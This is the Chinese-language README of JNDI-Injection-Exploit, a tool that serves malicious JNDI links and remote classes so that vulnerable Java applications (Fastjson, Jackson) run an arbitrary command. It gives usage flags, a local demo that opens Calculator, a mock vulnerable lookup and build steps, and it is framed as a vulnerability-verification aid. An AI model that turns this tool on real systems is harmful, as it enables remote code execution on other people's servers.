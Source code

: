 ## 介绍

JNDI注入利用工具，生成JNDI链接并启动后端相关服务，可用于Fastjson、Jackson等相关漏洞的验证。

## 使用

可执行程序为jar包，在命令行中运行以下命令：

```shell
$ java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar [-C] [command] [-A] [address]
```

其中:

- **-C** - 远程class文件中要执行的命令。

  （可选项 , 默认命令是mac下打开计算器，即"open /Applications/Calculator.app"）

- **-A** - 服务器地址，可以是IP地址或者域名。

  （可选项 , 默认地址是第一个网卡地址）

注意:

- 要确保 **1099**、**1389**、**8180**端口可用，不被其他程序占用。

  或者你也可以在run.ServerStart类26~28行更改默认端口。

- 命令会被作为参数传入**Runtime.getRuntime().exec()**，

  所以需要确保命令传入exec()方法可执行。
  
  **bash等可在shell直接执行的相关命令需要加双引号，比如说 java -jar JNDI.jar -C "bash -c ..."**

## 示例

### 本地演示：

1. 启动 JNDI-Injection-Exploit：

   ```shell
   $ java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "open /Applications/Calculator.app" -A "127.0.0.1"
   ```

   


2. 我们需要把第一步中生成的 JNDI链接注入到存在漏洞的应用环境中，方便解释用如下代码模仿漏洞环境：

   ```java
   public static void main(String[] args) throws Exception{
       InitialContext ctx = new InitialContext();
       ctx.lookup("rmi://127.0.0.1/fgf4fp");
   }
   ```

   当上面代码运行后，应用便会执行相应命令


## 安装

下面两种方法都可以得到Jar包

1. 从 [Realease](https://github.com/welk1n/JNDI-Injection-Exploit/releases)直接下载最新的Jar。

2. 把源码下载到本地然后自行编译打包。（在Java1.7+ 、Java1.8+ 和 Maven 3.x+环境下测试可以）

   ```shell
   $ git clone https://github.com/welk1n/JNDI-Injection-Exploit.git
   ```

   ```shell
   $ cd JNDI-Injection-Exploit
   ```

   ```shell
   $ mvn clean package -DskipTests
   ```
